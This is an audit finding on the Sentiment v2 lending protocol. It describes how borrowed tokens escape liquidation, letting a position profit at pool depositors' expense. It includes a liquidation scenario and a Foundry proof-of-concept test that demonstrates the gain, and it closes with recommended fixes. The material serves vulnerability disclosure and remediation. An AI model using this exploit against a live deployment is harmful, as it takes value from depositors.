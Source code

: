 Rhythmic Cherry Starfish

Medium

# Unliquidatable tokens can be exploited by positions, at the expense of pool depositors

## Summary

Borrowed tokens cannot be seized in a liquidation, despite the protocol recognizing the asset and being able to correctly price it. This results in positions being able to hedge their losses in the case of liquidations, at the expense of pool depositors.

## Vulnerability Detail

In a previous audit, a vulnerability ("C-02 Free Borrowing When Collateral Is The Same Asset") was reported which showed if a pool sets `LTV` for an asset to 100%, then the protocol incorrectly evaluates the health of a postition because the newly borrowed asset is counted as collateral on a position. The recommendation was to not allow borrow and collateral assets to be the same.

The recommendation was implemented by [not allowing pools to set the LTV for their asset](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskEngine.sol#L177) which results in [positions not being able to borrow if the borrow token was 'added to the position'](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskModule.sol#L264-L267) as the LTV for this asset will not be set and the health check will fair.

However, this fix has a downstream impact that the borrowed token is unliquidatable because if the liquidator attempts to seize an asset that is not added to the position, the [liquidation attempt will revert](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L471-L473).

In addition, if the position is being liquidated through the `liquidateBadDebt()` flow, it is also not seized as this call iterates through [only the assets added to a position](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L451-L455) and transfers them to the protocol multisig/governance address.

Essentially after any liquidation, the position will retain the borrowed asset, and have their debt reduced or cleared. This fact can be gamed by positions at the expensive of pool depositors in the following way:

- Position makes a borrow from a pool with high LVR and provides just enough collateral to stay healthy. They are able to utilize the borrowed token in Defi with the `PositionManager::exec()` function.
  - If the price of their collateral declines relative to the borrow token, they can get liquidated and retain the more valuable borrow token which was not liquidatable.
  - If the price of their collateral increases relative to the borrow token, they can repay the borrow token and retain the more valuable collateral tokens.

## Impact

- Positions can hedge against liquidations by holding the borrowed token in their position. As shown, this increases the risk to pool depositors who expected to have a future claim on the token the pool loaned (along with interest they earned).


## Code Snippet

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskEngine.sol#L177
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskModule.sol#L264-L267
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L471-L473
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L451-L455

## POC 

Scenario:
1. linearRatePool is created offering loans with 98% LVR on assset 1, user1 deposits assets.
2. User2 creates a position and deposits 1.021e18 worth of asset2 as collateral and adds this token to their position
3. The position borrows 1e18 worth of asset1 from fixedRatePool and is healthy
    The position:
    - totalAssets: 1.021e18
    - totalDebt: 1e18
    - minReqAssets: 1.020e18    
    - total unrecognized assets: 1e18 (asset1 cannot be added to their position)
4. The value of asset2 declines by ~3% in a single price update and is now worth 0.99e18, User2's position becomes undercollateralized
5. The protocol owner calls `liquidateBadDebt()` on this position:
    - Assets worth ~0.99e18 eth are sent to the protocol multisig
    - Debt worth 1e18 eth is socialized among pool depositors
    - Debt is removed from the position
    - 1e18 eth worth of asset1 remains on the position
6. User2 profited from the liquidation of their position at the expense of the pool depositor..


First update the min/max LTV settings in `BaseTest.t.sol` to reflect those in the contest readme:

```diff
    function setUp() public virtual {
        Deploy.DeployParams memory params = Deploy.DeployParams({
            owner: protocolOwner,
            proxyAdmin: proxyAdmin,
            feeRecipient: address(this),
-           minLtv: 2e17, // 0.1
-           maxLtv: 8e17, // 0.8
+           minLtv: 1e17, // 0.1
+           maxLtv: 9.8e17, // 0.98
            minDebt: 0,
            minBorrow: 0,
            liquidationFee: 0,
            liquidationDiscount: 200_000_000_000_000_000,
            badDebtLiquidationDiscount: 1e16,
            defaultOriginationFee: 0,
            defaultInterestFee: 0
        });
```

Then paste/run the following test in `LiquidationTest.t.sol`:

```javascript
    function test_POC_PositionBenefitsFromBorrowTokenBeingUnliquidatable() public {
        // 1. linearRatePool is created offering loans with 98% LVR on assset 1, user1 deposits assets.
        vm.startPrank(poolOwner); 
        riskEngine.requestLtvUpdate(linearRatePool, address(asset2), 0.98e18); 
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset2));
        vm.stopPrank();

        vm.startPrank(user);
        asset1.mint(user, 2e18);
        asset1.approve(address(pool), 2e18);
        pool.deposit(linearRatePool, 2e18, user);
        vm.stopPrank();

        // 2. User2 creates a position and deposits 1.021e18 worth of asset2 as collateral and adds this token to their position
        vm.startPrank(user2);
        asset2.mint(user2, 2e18);
        asset2.approve(address(positionManager), 2e18);
        
        Action[] memory actions = new Action[](4);
        (position, actions[0]) = newPosition(user2, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 1.021e18);
        actions[2] = addToken(address(asset2));


        // 3. The position borrows 1e18 worth of asset1 from fixedRatePool and is healthy
        //     The position:
        //     - totalAssets: 1.021e18
        //     - totalDebt: 1e18
        //     - minReqAssets: 1.020e18    
        //     - total unrecognized assets: 1e18 (asset1 cannot be added to their position)
        actions[3] = borrow(linearRatePool, 1e18);
        positionManager.processBatch(position, actions);
        assertTrue(riskEngine.isPositionHealthy(position));
        vm.stopPrank();

        // 4. The value of asset2 declines by ~3% in a single price update and is now worth 0.99e18, User2's position becomes undercollateralized
        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.97e18); // 3% decline in collateral value
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
        riskEngine.validateBadDebt(position);
        vm.stopPrank();

        // 5. The protocol owner calls `liquidateBadDebt()` on this position:
        //     - Assets worth ~0.99e18 eth are sent to the protocol multisig
        //     - Debt worth 1e18 eth is socialized among pool depositors
        //     - Debt is removed from the position
        //     - 1e18 eth worth of asset1 remains on the position
        uint256 pre_User1PoolAssets = pool.getAssetsOf(linearRatePool, user);
        (uint256 pre_totalAssetValue, ,) = riskEngine.getRiskData(position);

        vm.startPrank(address(protocolOwner));
        positionManager.liquidateBadDebt(position);
        vm.stopPrank();

        uint256 post_User1PoolAssets = pool.getAssetsOf(linearRatePool, user);
        (uint256 post_totalAssetValue, ,) = riskEngine.getRiskData(position);

        // 6. User2 profited from the liquidation of their position at the expense of the pool depositor.
        uint256 positionLostDueToLiquidation = pre_totalAssetValue - post_totalAssetValue;
        uint256 valueOfRetainedUnliquidatableAsset = protocol.riskModule().getAssetValue(position, address(asset1));

        assert(valueOfRetainedUnliquidatableAsset > positionLostDueToLiquidation); // postion profited from liquidation, ie. the entire borrowed asset was retained by the position which was more valuable than the assets lost due to liquidation
        assert(post_User1PoolAssets < pre_User1PoolAssets); // the profit made by the position owner was at the expense of pool depositor - user1
    }
```


## Tool used

Manual Review

## Recommendation

- Now that the valid range of LTVs a can set for an asset does not include 100% (according to the contest readme https://audits.sherlock.xyz/contests/349), borrow tokens could be added to positions to be considered collateral. The position would still need to add external collateral to remain healthy.

- Or, continue to not consider the value borrow token for the purposes of position health checks, but allow liquidations to seize the borrowed token as well as any other known asset to the protocol. This prevents the position from retaining valuable assets upon liquidation.